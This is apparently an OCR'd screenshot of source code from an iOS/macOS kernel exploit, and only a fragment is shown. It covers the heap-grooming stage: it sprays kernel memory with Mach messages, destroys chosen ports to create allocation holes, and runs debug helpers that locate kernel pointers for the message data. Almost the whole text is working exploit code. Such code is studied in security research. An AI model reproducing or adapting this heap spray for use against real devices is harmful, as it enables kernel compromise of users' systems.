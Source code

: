 ```cpp
    size_t stage0_sz = pagesize == 0x4000 ? 10 MB : 5 MB;
    for (int i = 0; i < 10; i++) {
        saved_ports[i] = POP_PORT();

        #if ENABLE_HELPER
        //helper; set signature
        if((i % 2) == 0) {memset(data, 0x74, msg_size);}
        else {memset(data, 0x72, msg_size);}
        #endif

        for (int j = 0; j < stage0_sz / (7 * pagesize); j++) {
            
            kern_return_t ret = send_message(saved_ports[i], data, msg_size);
            
            if (ret) {
                ERROR("Failed to send message\n");
                goto err;
            }
        }

        #if ENABLE_HELPER
        //helper; obtain msgdata_kptr
        uint64_t kmsgdata_kptr = find_kmsgdata_from_port(saved_ports[i]);
        INFO("saved_ports[%d](port=0x%x)'s msgdata_kptr = 0x%llx\n", i, saved_ports[i], kmsgdata_kptr);
        #endif
    }
    
    
    free(data);
    data = NULL;

    // we'll never do allocations smaller than 8 pages, so create some 7 page holes so the system can do small allocations there and leave us in peace
    mach_port_destroy(mach_task_self(), saved_ports[0]);
    mach_port_destroy(mach_task_self(), saved_ports[2]);
    mach_port_destroy(mach_task_self(), saved_ports[4]);
    mach_port_destroy(mach_task_self(), saved_ports[5]);
    mach_port_destroy(mach_task_self(), saved_ports[7]);
    mach_port_destroy(mach_task_self(), saved_ports[9]);

    // make a bunch of 8 page allocations to ensure there are no holes that mess with our allocations
    mach_port_t spray = POP_PORT();
    msg_size = message_size_for_kalloc_size(8 * pagesize) - sizeof(struct simple_msg);
    data = calloc(1, msg_size);
    
    #if ENABLE_HELPER
    //helper; set signature
    memset(data, 0x81, msg_size);
    #endif

    for (int i = 0; i < MACH_PORT_QLIMIT_LARGE; i++) {  //MACH_PORT_QLIMIT_LARGE = (1024)
        kern_return_t ret = send_message(spray, data, msg_size);
        if (ret) {
            printf("[-] Failed to send message\n");
            goto err;
        }
    }

    #if ENABLE_HELPER
    //helper; obtain msgdata_kptr 
    uint64_t kmsgdata_kptr = find_kmsgdata_from_port(spray);
```